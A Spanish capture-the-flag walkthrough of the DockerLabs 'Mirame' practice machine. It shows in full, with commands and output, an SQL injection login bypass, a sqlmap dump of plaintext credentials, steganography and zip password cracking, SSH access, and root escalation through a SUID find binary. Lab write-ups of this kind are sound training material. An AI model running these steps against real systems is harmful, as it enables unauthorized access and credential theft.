 # MIRAME

Hoy maquina de [dockerlabs](https://dockerlabs.es)

![dockerlabs](./images/mirame/imagenes/mirame.png)

Autor:yo(maciiii\_\_\_)

Dificultad: Fácil

## INTRUSION

Comenzamos haciendo un escaneo de nmap

```css
nmap -p- --open --min-rate 5000 -sS -vvv -n -Pn 172.17.0.3
```

```ruby
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-10 17:09 -03
Initiating ARP Ping Scan at 17:09
Scanning 172.17.0.3 [1 port]
Completed ARP Ping Scan at 17:09, 0.06s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 17:09
Scanning 172.17.0.3 [65535 ports]
Discovered open port 80/tcp on 172.17.0.3
Discovered open port 22/tcp on 172.17.0.3
Completed SYN Stealth Scan at 17:09, 1.68s elapsed (65535 total ports)
Nmap scan report for 172.17.0.3
Host is up, received arp-response (0.000015s latency).
Scanned at 2024-08-10 17:09:34 -03 for 2s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64
MAC Address: 02:42:AC:11:00:03 (Unknown)

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 1.90 seconds
           Raw packets sent: 65536 (2.884MB) | Rcvd: 65536 (2.621MB)

```

No se ve nada interesante mas que el puerto 22 pero por ahora no nos interesa.

Continuamos por el navegador y vemos esto:

**PUERTO 80:**

![puerto80](./images/mirame/imagenes/puerto80.png)

Al perecer es un panel de login, por lo que probaremos con las credenciales típicas: `admin:admin`

`root:root`

pero como ninguna funciona podemos pasar a probar poner una comilla `'` si nos da el error significa que estamos frente a SQLi. Al probar nos da el siguiente error:

![error](./images/mirame/imagenes/error.png)

Sabiendo esto podriamos intentar nuevamente con el usuario admin pero poniendo `admin'or 1=1-- -` como usuario y de contraseña lo que sea. Una vez hecho veremos un panel que nos deja consultar el clima, pero al no tener nada interesante tendremos que usar sqlmap.

Para sqlmap pondremos en el terminal:

```css
sqlmap -u "http://172.17.0.3/index.php" --forms --batch --dbs
```

lo que nos dice que hay dos bases de datos:

```mysql
available databases [2]:
[*] information_schema
[*] users
```

La que nos interesa a nosotros es la `users` por lo que ahora pondremos:

```css
sqlmap -u "http://172.17.0.3/index.php" --forms --batch -D users --tables
```

lo que nos mostrará las tablas de la base de datos `users`.

```mysql
Database: users
[1 table]
+----------+
| usuarios |
+----------+
```

El comando nos dice que hay una tabla llamada usuarios, por lo que ahora listaremos la tabla con:

```css
sqlmap -u "http://172.17.0.3/index.php" --forms --batch -D users -T usuarios --dump
```

```mysql
Database: users
Table: usuarios
[4 entries]
+----+------------------------+------------+
| id | password               | username   |
+----+------------------------+------------+
| 1  | chocolateadministrador | admin      |
| 2  | lucas                  | lucas      |
| 3  | soyagustin123          | agustin    |
| 4  | directoriotravieso     | directorio |
+----+------------------------+------------+

```

Ya teniendo todos los usuarios, vemos que hay uno medio anormal llamado `directorio:directoriotravieso`, ya que no parece un nombre común y se llama directorio, podriamos entrar desde el navegador a "directorios" y "directoriotravieso".

Luego de entrar a ambos, el único que si existe es "directoriotravieso", y dentro tiene una imagen, la descargamos y hacemos Esteganografía. Para hacerlo, podemos usar la herramienta `steghide`, con el comando:

```css
steghide extract -sf miramebien.jpg
```

Al ejecutar el comando, nos pide un salvoconducto, pero como no lo tenemos le damos al enter. Como no podemos extraer nada, podemos tratar de hacer un ataque de diccionario al archivo con la herramienta `stegseek` usando el comando:

```css
stegseek extract -sf miramebien.jpg -wl /usr/share/wordlists/rockyou.txt
```

```css
StegSeek 0.6 - https://github.com/RickdeJager/StegSeek

[i] Found passphrase: "chocolate"
[i] Original filename: "ocultito.zip".
[i] Extracting to "miramebien.jpg.out".
```

Vemos que dentro hay un .zip llamado "ocultito.zip" y que el salvoconducto es "chocolate", por lo que volvemos a ejecutar `steghide` y esta vez ponemos el salvoconducto "chocolate".

Esto nos deja un .zip el cual si intentamos extraer tiene contraseña, por lo que tendremos que utiliza `zip2john`para extraer el hash y luego crackearlo usando la herramienta `john the ripper`. Ejecutamos lo siguiente:

```css
zip2john ocultito.zip > hash.txt
```

Y luego

```css
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

con esto ya tenemos la contraseña del zip:

```abap
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
stupid1          (ocultito.zip/secret.txt)     
1g 0:00:00:00 DONE (2024-08-10 17:33) 100.0g/s 409600p/s 409600c/s 409600C/s 123456..oooooo
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

Vemos que la contraseña del zip es "stupid1", por lo que ahora si podemos extraerlo usando el comando `unzip ocultito.zip` y poniendo la contraseña.

Esto nos deja un .txt llamado "secret.txt" que al parecer tiene la contraseña del ssh, lo probamos con `ssh carlos@172.17.0.3` y listo, estamos dentro.

## ESCALADA DE PRIVILEGIOS

Ahora somos el usuario `carlos` por lo que nos fijamos si podemos ejecutar algo con sudo usando `sudo -l` y nada. Por lo que veremos si hay algún binario que podamos aprovechar en el SUID, para verlo ejecutamos:

```abap
find / -perm -4000 2>/dev/null
```

```css
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/lib/mysql/plugin/auth_pam_tool_dir/auth_pam_tool
/usr/bin/chsh
/usr/bin/find
/usr/bin/umount
/usr/bin/gpasswd
/usr/bin/chfn
/usr/bin/su
/usr/bin/passwd
/usr/bin/mount
/usr/bin/newgrp
/usr/bin/sudo
```

Como vemos, esta el binario `find`, si buscamos en [GTFObins](https://gtfobins.github.io) vemos que podemos aprovecharnos de el para escalar usando el comando:

```ruby
/usr/bin/find . -exec /bin/sh -p \; -quit
```

Al usarlo escalamos a root.

![root](./images/mirame/imagenes/root.png)
